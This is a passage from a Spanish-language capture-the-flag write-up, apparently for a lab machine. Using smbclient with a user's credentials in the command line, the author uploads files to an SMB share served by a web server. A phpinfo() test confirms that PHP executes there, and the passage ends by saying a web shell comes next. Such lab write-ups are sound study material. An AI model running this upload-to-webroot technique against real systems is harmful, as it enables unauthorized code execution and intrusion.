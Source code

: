 Y ahora con `smbclient`
```shell
smb: \> put test.txt
putting file test.txt as \test.txt (0,0 kb/s) (average 0,0 kb/s)
```

Y efectivamente, se ve reflejado.
![Write-up Image](images/Screenshot_17.png)

Vamos a ver si se interpreta código PHP en este sitio web..
```shell
$ echo "<?php phpinfo(); ?>" > info.php
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/secnotes/content]
└──╼ [★]$ smbclient \\\\10.129.18.0\\new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> put info.php
putting file info.php as \info.php (0,2 kb/s) (average 0,2 kb/s)
```

Y vemos que si, ahora solo quedaría subirnos una web shell.
![Write-up Image](images/Screenshot_18.png)
